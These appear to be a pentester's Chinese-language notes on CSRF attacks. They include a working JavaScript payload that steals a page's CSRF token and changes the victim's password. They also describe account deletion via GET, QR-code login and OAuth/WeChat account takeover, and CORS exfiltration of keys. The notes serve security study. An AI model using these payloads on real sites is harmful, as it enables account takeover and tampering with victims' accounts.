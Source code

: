 xss无法获取cookie造成危害的时候，尝试csrf，通过写payload获取csrftoken
ex.
```
var reg = new XMLHttpRequest();
reg.onload = reqListener; // 确保变量名一致
reg.open("POST", "https://test.com/profile/password", true);
reg.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
reg.withCredentials = true;
reg.send("user[password]=passwordtest&userpassword_confirmation=passwordtest&_csrf=" + document.querySelector("head > meta:nth-child(14)").content);

function reqListener() {
    var data = this.responseText;
    alert(data);
}
```

账号注销案例
ex.
```
POST /applications/ChangeUserInfo HTTP/1.1 

{
"username":""
"head":""
}
```
直接改为get请求，相当于直接没有参数，发给受害者就直接删除了账号.

二维码csrf
https://mp.weixin.qq.com/s/soms88YZP4GLAxy4fajQFg
二维码登陆流程
1. 服务器生成token，并且一直请求查看token被谁用了
2. 用户扫码确认登陆，通过cookie等方式把自己账号和该token绑定
3. 浏览器识别到token被使用，于是登陆到该账号
如何利用？
制作确认登陆那一步的数据包的poc发给受害者，让他和token绑定，然后我们的浏览器就登陆到受害者的账号了
![[c4a6ec97f16ba311b8fce47d55bfd34.jpg]]
二维码实际上的请求
![[55a16b78ccb00ada29377a7aafd1037.jpg]]

csrf仓库代码泄露案例
构造poc，让他在业务上登陆攻击者账号之后，请求绑定受害者的代码库。分两部分，第一部分通过抓登陆包抓到登陆的请求构造poc，第二步抓自动授权绑定的请求

通过_method进行csrf
比如说请求体_method=DELETE造成账号删除

oauth缺陷接管账号，微信绑定账号，开始拦截数据包，扫码，抓到关键的包比如说带code的，然后做成poc，发给受害者，就会绑定这个code，从而把受害者的账号绑定到了攻击者的微信上面

cors，有敏感信息
比如说我在bp靶场有个cors漏洞，页面上有key，我们可以在别的网站比如说bing，打开控制台，执行代码请求靶场，把key带出来
综合利用，结合xss，8.1.22.22